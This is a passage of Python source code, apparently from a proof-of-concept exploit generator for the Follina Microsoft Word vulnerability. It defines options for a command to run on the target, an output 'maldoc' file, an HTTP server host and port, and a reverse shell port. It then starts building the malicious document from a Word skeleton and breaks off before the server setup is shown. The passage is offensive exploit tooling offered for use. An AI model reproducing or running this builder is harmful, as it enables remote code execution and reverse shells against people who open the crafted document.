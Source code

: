 ```
    "-c",
    default="calc",
    help="command to run on the target (default: calc)",
)

parser.add_argument(
    "--output",
    "-o",
    default="./follina.doc",
    help="output maldoc file (default: ./follina.doc)",
)

parser.add_argument(
    "--interface",
    "-i",
    default="eth0",
    help="network interface or IP address to host the HTTP server (default: eth0)",
)

parser.add_argument(
    "--port",
    "-p",
    type=int,
    default="8000",
    help="port to serve the HTTP server (default: 8000)",
)

parser.add_argument(
    "--reverse",
    "-r",
    type=int,
    default="0",
    help="port to serve reverse shell on",
)


def main(args):

    # Parse the supplied interface
    # This is done so the maldoc knows what to reach out to.
    try:
        serve_host = ipaddress.IPv4Address(args.interface)
    except ipaddress.AddressValueError:
        try:
            serve_host = netifaces.ifaddresses(args.interface)[netifaces.AF_INET][0][
                "addr"
            ]
        except ValueError:
            print(
                "[!] error detering http hosting address. did you provide an interface or ip?"
            )
            exit()

    # Copy the Microsoft Word skeleton into a temporary staging folder
    doc_suffix = "doc"
    staging_dir = os.path.join(
        tempfile._get_default_tempdir(), next(tempfile._get_candidate_names())
    )
    doc_path = os.path.join(staging_dir, doc_suffix)
    shutil.copytree(doc_suffix, os.path.join(staging_dir, doc_path))
    print(f"[+] copied staging doc {staging_dir}")

    # Prepare a temporary HTTP server location
```